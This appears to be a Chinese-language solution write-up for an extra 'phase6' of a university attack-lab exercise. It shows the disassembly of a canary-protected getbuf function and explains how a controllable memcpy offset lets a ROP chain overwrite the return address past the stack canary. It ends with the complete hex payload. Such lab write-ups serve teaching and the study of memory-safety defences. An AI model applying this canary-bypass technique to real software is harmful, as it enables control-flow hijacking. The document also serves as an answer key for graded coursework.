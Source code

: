 # phase6
这是CMU原版lab没有的一个phase，网上也鲜有教程，树洞还都是谜语人，唉。。。。。。。

直接来看`getbuf_withcanary`,
```
0000000000401ad5 <getbuf_withcanary>:
  401ad5:	55                   	push   %rbp
  401ad6:	48 89 e5             	mov    %rsp,%rbp
  401ad9:	48 81 ec 20 01 00 00 	sub    $0x120,%rsp
  401ae0:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401ae7:	00 00 
  401ae9:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401aed:	31 c0                	xor    %eax,%eax
  401aef:	c7 45 e4 00 00 00 00 	movl   $0x0,-0x1c(%rbp)
  401af6:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401afd:	48 89 c7             	mov    %rax,%rdi
  401b00:	e8 0c 02 00 00       	callq  401d11 <Gets>
  401b05:	8b 45 e4             	mov    -0x1c(%rbp),%eax
  401b08:	48 98                	cltq   
  401b0a:	48 8d 95 e0 fe ff ff 	lea    -0x120(%rbp),%rdx
  401b11:	48 8d 0c 02          	lea    (%rdx,%rax,1),%rcx
  401b15:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401b1c:	ba 80 00 00 00       	mov    $0x80,%edx
  401b21:	48 89 c6             	mov    %rax,%rsi
  401b24:	48 89 cf             	mov    %rcx,%rdi
  401b27:	e8 d4 f2 ff ff       	callq  400e00 <memcpy@plt>
  401b2c:	b8 01 00 00 00       	mov    $0x1,%eax
  401b31:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi
  401b35:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  401b3c:	00 00 
  401b3e:	74 05                	je     401b45 <getbuf_withcanary+0x70>
  401b40:	e8 7f 06 00 00       	callq  4021c4 <__stack_chk_fail>
  401b45:	c9                   	leaveq 
  401b46:	c3                   	retq  
```

直接想要写爆缓冲区是不可能的，canary的值会被更改。但是此处有一个魔幻的memcpy，其中的参数是可以通过写入字符串来修改的。所以我们可以考虑进行一些精巧的设定，在memcpy时正好把代码块放到canary之上覆盖原先的返回地址，从而达成劫持的目的。

source的起始位置已经定了就是读入字符串开始的位置，dest的位置应该是canary之上正好是返回地址的开始位置，所以是从栈底往上0x120+8也就是0x128的位置，然后把之前phase5的代码搬运到最开头即可。运行时memcpy之后代码就跑到了和phase5一样的位置上了。

```
80 1b 40 00 00 00 00 00
20 00 00 00 00 00 00 00
d8 1b 40 00 00 00 00 00
57 1c 40 00 00 00 00 00
1a 1c 40 00 00 00 00 00
aa 1b 40 00 00 00 00 00
4f 1b 40 00 00 00 00 00
89 1b 40 00 00 00 00 00
4f 1b 40 00 00 00 00 00
0d 1a 40 00 00 00 00 00
37 37 63 33 39 34 34 66
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 28 01 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
```
